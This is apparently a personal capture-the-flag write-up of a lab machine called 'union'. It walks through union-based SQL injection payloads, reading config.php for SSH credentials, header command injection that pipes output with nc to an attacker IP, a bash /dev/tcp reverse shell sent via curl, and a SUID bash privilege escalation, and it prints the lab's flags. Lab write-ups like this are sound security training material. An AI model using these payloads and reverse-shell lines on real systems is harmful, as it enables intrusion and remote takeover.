## Testing

*(Starting knowing there is SQLi somewhere. Picked to practice SQLi.)*

Starting: 2026-09-13, 20:10

IP:
```
10.129.96.75
```

---

ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.96.75 -oG network/nmap_ports.txt
```



Port 80 HTTP

service and version

```
sudo nmap -p80 -sCV --min-rate=5000 10.129.96.75 -oN network/nmap_service.txt
```



nginx 1.18.0 web server

Cookie PHPSESSID - PHP backend

HTTP - Web

Browsing: http://10.129.96.75/



Player check functionality in `index.php`



Have a response: `Congratulations player1 you may compete in this tournament!` and a link to complete the challenge in `challenge.php`


`challenge.php` is a check for flags

Here dont seem to have any response.

Opening burp to check both functionalities closer

Sending request to repeater



`index.php`. Player parameter, and message in response.

`'` on player dont change response


`challenge.php`



Flag parameter, does not seem to have response, maybe when is valid only

Back to `index.php`. Trying `'`  response does not change

`' and 1=1-- -` and `' and 1=2-- -` does not change response



Trying union

After different amount of `null` for columns queried, discover calling one column with union reflects the value as name, when calling 2 columns reponds with the whole query as injection failed, didnt match the original count of columns.

Request calling 2 columns `null, null`



Request calling 1 column `null`



The `null` is reflected by an empty value

```
' union select null-- -
```

Switching to browser to be more comfortable

Identifying db with version syntax, its accepting `version()` and `@@version` so must be MySQL

```
' union select @@version-- -
```



Confirming with concat

```
' union select 'a'=CONCAT('a','c')-- -
```



`a` is not equal to `ac`, returns `0`

```
' union select 'ac'=CONCAT('a','c')-- -
```



`ac` is equal to `ac`, returns `1`

Confirmed MySQL with version and concatenation syntax

Enumerating current database name

```
' union select database()-- -
```



`november`

Enumerating tables inside db `november`

```
' union select table_name from information_schema.tables where table_schema='november'-- -
```



`flag`

Enumerating columns in table `flag`

```
' union select column_name from information_schema.columns where table_name='flag'-- -
```



`one`

Listing contents

```
' union select * from flag-- -
```



`UHC{F1rst_5tep_2_Qualify}`

Introducing the flag in `challenge.php`



Redirected to `firewall.php`

My IP address has been granted SSH access it seems, but saw no exposed SSH service

Maybe now is open?

```
sudo nmap -p20 -Pn -n -vv --min-rate=5000 10.129.96.75
```



not open  *(Edited Post testing: I scanned port 20 not 22...)*

Trying to read configuration files with SQLi

Fuzzing to see potential files. Using `FUZZ.php` as is a PHP app

```
ffuf -u http://10.129.96.75/FUZZ.php -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt
```

Nothing

```
ffuf -u http://10.129.96.75/FUZZ.php -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```



`config.php`

Using `load_file` to load system files. Default root for nginx `/var/www/html/`

```
' union select load_file("/var/www/html/config.php")-- -
```

Page wont load it



opening on burp



Config is listed

username
```
uhc
```

password
```
uhc-11qual-global-pw
```


I can connect via SSH, but only exposed service was HTTP on port 80... 

*(Edited Post Testing: I scanned the wrong port before. It must have opened after sumitting flag and redirected to `firewall.php`. Either way, the connection was established)*

```
ssh uhc@10.129.96.75
```



Connected as `uhc` to target system `union` with IP: `10.129.96.75`

Getting user flag

```
cat /home/uhc/user.txt 
```

user.txt: `531777cc4de2f28d52159723afbfb019`

End: 2026-09-13, 21:30 

---
Privilege escalation

Start: 2026-09-13,10:25

```
sudo -l
```

`Sorry, user uhc may not run sudo on union.`

SUID binaries

```
find / -perm -4000 2>/dev/null
```



at, fusermount, pkexec, ...

Searching in GTFObins

`at` - https://gtfobins.org/gtfobins/at/#shell

File at has `rwsr-sr-x`

`s` for both root and user slots

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

Using the GTFObin command gets me a shell but as same user, is not executed as root

Stuck

**Hint**: https://youtu.be/i2aHMXFb1Yk?si=mS5fNuEyUzW2ZbQE. 1:24h

I need to read the PHP files in the server. The `firewall.php` script has a flaw.

Default debian/ubuntu webroot: `/var/www/html/`

Download it to system to read it better

```
scp uhc@10.129.96.75:/var/www/html/firewall.php /tmp
```



Requires a session (Cookie)

Gets the `ip` from a HTTP header `X_FORWARDED_FOR` -> `X-FORWARDED-FOR`

The `ip` is a variable included in a command executed as root. 

System/OS command injection

Intercepting the redirect to `firewall.php` after submitting the/a valid flag in `challenge.php`

Adding the header and placeholder value to then add injected command and comment the rest

```
X-FORWARDED-FOR: 1.1.1.1; whoami | nc 10.10.14.204 9001;#
```



Executing `whoami` and directing output to attacker IP



RCE as `www-data`. Only the `iptables` command is running as root with sudo.

Still getting a shell

```
X-FORWARDED-FOR: 1.1.1.1; bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1';#
```

not working.

Using curl

```
curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1';#" -H "Cookie: PHPSESSID=3aqk9lu0a9f7nosjolc9i73cnu" 
```

Using the same payload and adding the cookie since requires a session

Not working, session may be expired. Reconnecting to the web app and copying the new cookie

```
curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1';#" -H "Cookie: PHPSESSID=je67unh09ufqc4kqq842clboup"
```

Got the connection with listener on port 9001

```
whoami && ifconfig | grep inet
```



Connected as www-data to target system union with IP: 10.129.96.75

```
sudo -l
```



This account commonly has low privileges but enumerating can see is really privileged in this system as it can execute all commands as any user without password

Applying SUID to `/bin/bash` to execute it as its file owner (root)

```
sudo chmod u+s /bin/bash
```



Spawning `/bin/bash` with privileges `-p` 

```
bash -p
```



root.txt: `fc0580ac29d8371a5994066b3c85e4f3`

End: 2026-09-13, 23:45

----

#### Post testing

##### Time frame
Starting: 2026-09-13, 20:10

End: 2026-09-13, 21:30 

Start: 2026-09-13, 22:25

End: 2026-09-13, 23:45

Total time Testing: 2h 40min

##### Techniques
- SQLi with UNION and **reflected data** in response
- Reading web app source code via SQLi
- System command injection over HTTP header fed as variable to a script's system execution sink
- Abusing `(ALL) NOPASSWD: ALL` sudo privilege

##### Sources
- Hint: S4vitar video at 1:24h https://youtu.be/i2aHMXFb1Yk?si=mS5fNuEyUzW2ZbQE. (Read web application source code - `firewall.php`)
